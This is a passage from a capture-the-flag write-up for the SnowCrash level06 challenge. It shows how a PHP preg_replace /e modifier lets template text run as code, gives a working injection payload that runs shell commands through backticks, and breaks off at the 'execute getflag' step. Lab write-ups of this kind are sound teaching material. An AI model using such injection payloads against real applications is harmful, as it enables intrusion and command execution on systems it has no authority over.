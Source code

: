 ## Exploitation Strategy

Since the replacement is evaluated as PHP code, we can inject arbitrary PHP expressions instead of just calling the `y()` function.

### Step 1: Test Basic Functionality

First, let's verify the script works normally:

```bash
level06@SnowCrash:~$ echo "hello world" > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
hello world
```

The script successfully reads and outputs the file content.

### Step 2: Test Template Processing

```bash
level06@SnowCrash:~$ echo "[x test.example@domain]" > /tmp/template
level06@SnowCrash:~$ ./level06 /tmp/template
(test x example y domain)
```

This shows the template processing working:
- `[x test.example@domain]` was processed
- `test.example@domain` became `test x example y domain` through `y()`
- `[` and `]` were converted to `(` and `)`

### Step 3: Code Injection Test

Now let's exploit the `/e` modifier by injecting PHP code:

```bash
level06@SnowCrash:~$ echo '[x ${`ls`}]' > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
PHP Notice:  Undefined variable: level06
level06.php
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

#### Understanding the Injection

The payload `[x ${`ls`}]` works as follows:
1. **Pattern Match**: `[x ${`ls`}]` matches the regex
2. **Captured Content**: `${`ls`}` is captured as group 2
3. **Code Evaluation**: Instead of `y("${`ls`}")`, PHP evaluates `${`ls`}`
4. **Command Execution**: The backticks execute `ls` as a shell command
5. **Variable Interpolation**: `${...}` tries to use the command output as a variable name

The error message shows that `ls` was executed (we see the file listing), but PHP treats it as an undefined variable name.

### Step 4: Execute getflag

